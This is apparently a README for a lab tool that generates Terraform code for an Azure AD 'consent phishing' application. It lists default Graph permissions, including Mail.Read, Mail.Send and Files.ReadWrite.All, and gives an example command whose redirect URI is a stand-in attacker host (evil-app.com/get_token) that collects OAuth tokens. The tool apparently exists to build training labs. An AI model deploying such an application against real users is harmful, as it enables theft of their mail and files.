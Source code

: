 # Phishing Application 

```$ python3 phishing_app.py --name <DISPLAY_NAME> --redirect_uri <REDIRECT_URI> ```

This generates a terraform format HCL file for ```phishing_app.tf```.

**Example 1:**
```
python3 phishing_app.py
```

**Example 2:**
```
python3 phishing_app.py --name EvilApp --redirect_uri https://www.evil-app.com/get_token 
```

**Important Note:** This generator lives in the ```generators/phishing_app``` directory.  Navigate into this directory first.
```
cd generators/phishing_app
```

The following Graph API delegated scope permissions are automatically created for the application:
```
Contacts.Read
Mail.Read
Mail.Send
Files.Read
Files.Read.All
Files.ReadWrite.All
User.Read
```

API permissions can be customized by adding the ```id``` for the correct permission, as shown in the code block below:
```
    resource_access {
      id   = "570282fd-fa5c-430d-a7fd-fc8dc98a9dca" #  Mail.Read
      type = "Scope"
    }
```

## Full command line parameters
```--name <DISPLAY_NAME>```:  Specify the display name for the application (Default: Sample App)

```--redirect_uri <REDIRECT_URI>```:  The redirect uri that the application uses to receive OAuth tokens.
(Default: "http://localhost:30662/gettoken")

```--homepage_url <HOMEPAGE_URL>```:  The homepage URL used by the application.
(Default: "https://localhost:30662")

```--logout_url <LOGOUT_URL>```:  The logout URL used by the application.
(Default: "https://localhost:30662/logout")

## Demo
A video demonstration of building an application consent phishing  lab with options and illustrations.

[![App Consent Phishing Demo]()](https://youtu.be/o9wb6aux9Rk "application consent phishing lab")
